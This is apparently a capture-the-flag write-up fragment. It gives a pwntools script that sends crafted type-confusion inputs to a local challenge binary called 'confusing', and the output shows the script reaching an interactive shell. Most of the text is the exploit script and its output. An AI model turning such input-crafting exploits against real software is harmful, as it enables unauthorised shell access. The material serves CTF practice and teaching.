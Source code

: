 ```python
from pwn import *
import struct

conn = process('../publish/confusing')
conn.sendlineafter(b'Give me d: ', str(struct.unpack('d', p16(13337) + b'\xff\xff\xff\xff\xff\xfe')[0]).encode())
conn.sendlineafter(b'Give me s: ', str(u32(b'FLAG')).encode())
conn.sendlineafter(b'Give me f: ', struct.pack('d', 1.6180339887))
conn.interactive()
```

To test it, we can target the local binary. Make sure to change the path of the process target.

```
$ python3 confusing.py
[+] Starting local process './confusing': pid 725828
[*] Switching to interactive mode
$ whoami
kali
```

